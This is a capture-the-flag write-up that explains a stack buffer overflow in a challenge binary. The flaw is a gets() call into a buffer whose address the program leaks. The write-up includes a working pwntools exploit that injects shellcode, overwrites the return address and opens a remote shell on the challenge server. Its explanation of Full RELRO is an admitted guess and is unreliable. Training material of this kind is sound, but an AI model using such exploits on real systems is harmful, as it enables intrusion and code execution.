 # Reconnaissance
## C Review
The `main()` function looks pretty plain, the use of `fgets()` protects the `sample` buffer from overflowing, so there is no vulnerability in that. But the last part of `main()` calls another function, `vuln()`. `vuln()` calls `gets()` to write into the `buf` variable, allowing us to over flow, which is an obvious attack vector. However, there is no function call to overwrite here, and no `win()` function to change the return address to. But, the `vuln()` does print something, and it leaks the address of `buf`! What this means is that we can put our own shellcode into `buf` and then overflow into the return address, changing this to the address of `buf` so that we call our own code.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_3

>Arch:     amd64-64-little  
>RELRO:    Full RELRO  
>Stack:    No canary found  
>NX:       NX disabled
>PIE:      PIE enabled
>RWX:      Has RWX segments
A couple things to note here: firstly, stack canary is disabled which will make things easier and NX is disabled which means there is no protection stopping our own code from executing. PIE is enabled, so we will need to use the address leaked in the `vuln()` function to know where `buf` is. Additionally there are RWX segments, which is what allows our code to execute. There is also Full RELRO, which I don't fully understand myself, but I believe that it prevents buffer overflow attacks from going to other FUNCTIONS, but won't stop us from redirecting the return address to inside of the buffer.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function.  

![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  

Looking into Ghidra we can see that `local_78` is the buffer, and it is located at memory address -0x78 on the stack--which means it has a length of 112 bytes. That's the most significant information we can get from Ghidra, since PIE is enabled and memory addresses here will not be absolute.  

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_3")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13373)
	return r
```
The `ELF()` function from `pwn` allows us to add information about the binary to our `pwn` context, and we set the `log_level` to "DEBUG" so that we will get verbose output from all of the functions describing what was received or sent. The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling `conn(True)` connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we get the input from the process and find the address of `buf`:
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the program to leak the address of the buffer we are writing to:
io.recvuntil("No really, it was pretty good before COVID: ")
data = io.recvline()[:-1]
buf_address = int(data, 16)
```

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 120 bytes then the address of the buffer send it, and open an 
# interactive terminal -- The system is 64-bit so we need a 64-bit pointer to the address of buf.
# This offset is 120 bytes because buf is 112 bytes, and the base pointer between the buffer and
# the return address is an additional 8 bytes (64-bit system)
payload = asm(shellcraft.sh())
payload += b'a'*(120-len(payload))
payload += p64(buf_address)+b'\n'
print(len(payload))
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!